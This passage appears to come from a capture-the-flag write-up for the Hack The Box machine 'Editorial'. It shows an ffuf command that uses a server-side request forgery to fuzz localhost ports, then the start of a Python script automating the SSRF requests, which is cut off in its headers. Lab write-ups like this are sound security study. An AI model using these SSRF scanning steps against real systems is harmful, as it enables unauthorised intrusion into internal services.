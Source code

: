 Fuzz common ports on localhost

```bash
ffuf -c --request-proto http -request ssrf.req -w <(seq 65535) -fr 'unsplash_photo_1630734277837_ebe62757b6e0'
```

![](/assets/obsidian/411b73d85ce6b9e1059c76822f67890c.png)

#### Credential from api endpoints

Check the response of port `5000`

![](/assets/obsidian/65dd18bb10f9a6b4ac41eac625ba2a98.png)

- It seems to be an API server

![](/assets/obsidian/ce6489fedda81b5869b32fdde881e728.png)

Made a python script to automate the process

> `ssrf.py`

```python
import sys
import requests


def fetch(url: str):
    headers = {
    'Host': 'editorial.htb',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Content-Type': 'multipart/form-data; boundary=---------------------------167008962427088142091823041654',
    'Origin': 'http://editorial.htb',
    'Connection': 'close',
```